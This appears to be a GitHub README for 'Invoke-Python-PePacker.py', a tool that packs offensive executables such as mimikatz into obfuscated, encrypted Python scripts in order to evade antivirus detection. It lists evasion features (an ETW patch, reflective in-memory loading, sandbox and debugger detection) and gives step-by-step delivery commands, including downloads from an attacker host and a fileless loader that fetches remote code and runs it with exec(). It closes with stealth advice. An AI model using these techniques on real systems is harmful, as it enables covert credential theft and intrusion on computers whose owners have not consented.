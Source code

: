 ### Invoke-Python-PePacker.py
--------------------------------------
'Invoke-Python-PePacker.py' allows to pack and encrypt offensive PE files (x64 exe) in order to bypass AV solutions such as Windows Defender.
It generates an obfuscated Python script that embeds a compressed and encrypted version of the target PE file, and implements several defense evasion techniques.

#### FEATURES
  - Reflective PE injection using the 'PythonMemoryModule'
  - PE encryption (XOR) and compression (Zlib)
  - ETW bypass in user-mode (patching 'NtTraceEvent')
  - Script obfuscation (Function and variable names are randomized + Nested payloads)
  - Basic sandbox detection and evasion (Delayed execution + Terminates execution if a debugger is detected)
  - Compatible with many offensive security tools (x64 EXE, unmanaged code, no GUI) such as mimikatz, pplblade, etc.

#### USAGE
- STEP 1. Generate an obfuscated and encrypted Python script that contains your PE file (e.g. mimikatz.exe, pplblade.exe).
          If you want to add arguments to pass to your PE file during its execution in-memory, you need to add them in the script 'Invoke-Python-PePacker.py'
          before running it.
```
Basic example for mimikatz
---------------------------
1. Edit the script 'Invoke-Python-PePacker.py'
   + Example 1 - You want to run mimikatz with the argument 'coffee' 
     > pythonmemorymodule.MemoryModule(data={pe_var}, command =' coffee')
   + Example 2 - You want to run mimikatz (interactively) with no argument
     > pythonmemorymodule.MemoryModule(data={pe_var})

2. Run the script 'Invoke-Python-PePacker.py' to generate an obfuscated Python script that embeds mimikatz
+ C:\path\python-3.10.4> python.exe .\Invoke-Python-PePacker.py ".\mimikatz.exe" ".\obfuscated_script.py"
```

- STEP 2. Multiple options exist to download & execute the obfuscated Python script (embeding you offensive PE) on a target Windows computer.

  - Option A: Utilize a portable signed Python 3 interpreter (www.python.org) + Fileless delivery of the obfuscated Python script.
```
1 - Download a Zip archive file on your target Windows computer that contains a signed portable Python 3 interpreter from 'www.python.org'
    as well as the Python 'MemoryModule' from the Github project 'https://github.com/naksyn/PythonMemoryModule'.
    Example:
    --------
    PS C:\temp\python> wget -uri https://your-IP-or-website/python-3.10.4-with-MemoryModule.zip -OutFile C:\temp\python\python.zip
    PS C:\temp\python> tar -xf .\python.zip; del .\python.zip;

2 - Download from a remote web server and execute directly in memory the obfuscated Python script (embeding you offensive PE) on the target
    Windows machine using Python. This fileless delivery technique enhances stealth and helps evade static antivirus detection.
    Example:
    --------
    C:\temp\python> type .\Python-fileless-delivery.py
    #Python3
    import urllib.request
    request = urllib.request.Request('http://your-IP-or-website/obfuscated_script.py')
    result = urllib.request.urlopen(request)
    payload = result.read()
    exec(payload)

    C:\temp\python> python.exe .\Python-fileless-delivery.py 
```
  - Option B: Utilize a portable signed Python 3 interpreter (www.python.org) + Download the obfuscated Python script locally before execution.
```
1 - Download a Zip archive file on your target Windows computer that contains a signed portable Python 3 interpreter from 'www.python.org'
    as well as the 'PythonMemoryModule' from the Github project 'https://github.com/naksyn/PythonMemoryModule'.
    Example:
    --------
    PS C:\temp\python> wget -uri https://your-IP-or-website/python-3.10.4-with-MemoryModule.zip -OutFile C:\temp\python\python.zip
    PS C:\temp\python> tar -xf .\python.zip; del .\python.zip;

2 - Download and store locally on disk the obfuscated Python script (embeding you offensive PE) before executing it with Python.
    While obfuscation and encryption help evade static analysis by most antivirus solutions, this approach may offer reduced stealth compared to in-memory execution.
    Example:
    --------
    C:\temp\python> powershell -c "wget -uri https://your-IP-or-website/obfuscated_script.py -OutFile C:\temp\python\obfuscated_script.py"
    C:\temp\python> python.exe .\obfuscated_script.py
```
  - Option C: Use PyInstaller to bundle the obfuscated Python script into a single executable (e.g. script.exe) and then download and execute it on a target Windows computer.


#### OPSEC advices
- Remove all existing comments in the script (loader template) before generating the obfuscated Python script (embeding you offensive PE).
- When possible use fileless delivery technique to enhance stealth and evade static antivirus detection.
  
#### LICENSE
  - GNU General Public License v3.0
